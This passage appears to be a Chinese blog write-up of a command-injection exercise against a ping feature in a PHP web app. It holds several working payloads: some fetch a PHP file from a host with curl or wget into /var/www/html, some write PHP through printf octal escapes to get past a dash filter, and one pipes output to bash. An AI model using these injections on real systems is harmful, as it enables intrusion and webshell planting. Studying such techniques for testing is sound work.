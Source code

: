 `ping -c 4 notexists |curl http://172.17.0.1:8000/2.php O /var/www/html/2.php`

发现 `-` 也被过滤了，`-O`参数不能用。想到看看 php 默认运行目录是哪里，直接 `wget` 下载到当前目录也可以。然后又想到可以再拼一个 `|| mv 2.php /var/www/html/2.php` 移动过去。再试一试。

`ping -c 4 notexists |wget http://172.17.0.1:8000/2.php |mv 2.php /var/www/html/2.php`

现在看起来有机会运行了，结果报错`wget: not found`。

行吧。乖乖`curl`，payload 改成 `notexists || curl http://172.17.0.1:8000/2.php || tee /var/www/html/2.php`。更屑的事情发生了：`curl: not found`。

怎么什么都没有？沃日。拼一句 `|| ls /usr/bin`看看有啥可以用的，惊喜地发现居然有个 `rsync`，这下总该省事了吧，结果半天没搞出来匿名访问的 rsync daemon。

一看时间快下班了，突然意识到其实有 `base64` 可以用=。=，还有`printf`转义`\x` 都能bypass。怎么一到下班时间就才思泉涌。

payload 改成 `notexists || printf '<?php phpinfo\x28\x29\x3b ?>' > /var/www/html/2.php`，结果发现依然不行。为什么？头都要炸了。`base64 -d`的`-`会被过滤故不能考虑，`printf`的`\x`转义序列怎么会不行，谷歌了一番[在爆栈看到个回答](https://stackoverflow.com/questions/66844155/bin-sh-does-not-recognize-hexadecimal-escape-sequences)：

> Because escape sequences in `\xdd` form (where each `d` represents a hexadecimal digit) are a GNU extension and not available everywhere. But octals are widely supported (and [standardized](https://pubs.opengroup.org/onlinepubs/9699919799/utilities/printf.html#tag_05)), so you can use:
>
> ```sh
> printf '%b' '\0220'
> ```

好嘛，所以说 `\x` 转义序列还不够 portable 是吧。`\0`转义序列要用 8 进制编码，于是我再次改了一下 payload ...

`notexists|printf '<?php phpinfo\050\051\073 ?>' > /var/www/html/2.php`，把 `\x` 转义序列改成了 `\0`，这次没问题了。

![image-20220424142807468](image-20220424142807468.png)

此外还想到另一种解法，考虑`sh`（`csh`或者`dash`，`ash`？）不吃`\x`，要是对`\0`也不吃还有种比较狗的办法，`printf "printf \"\\x28\\x29\""|bash`，用`\\`转义留下反斜杠，然后传给`bash`执行。`bash`大概率是能吃下`\x`转义序列的，于是就间接实现了`printf \x28\x29`。

传`notexists|printf "printf \"\\x28\""|bash`这个 payload 可以看到回显 `(`，说明这个思路是 ok 的。

![image-20220424143511245](image-20220424143511245.png)
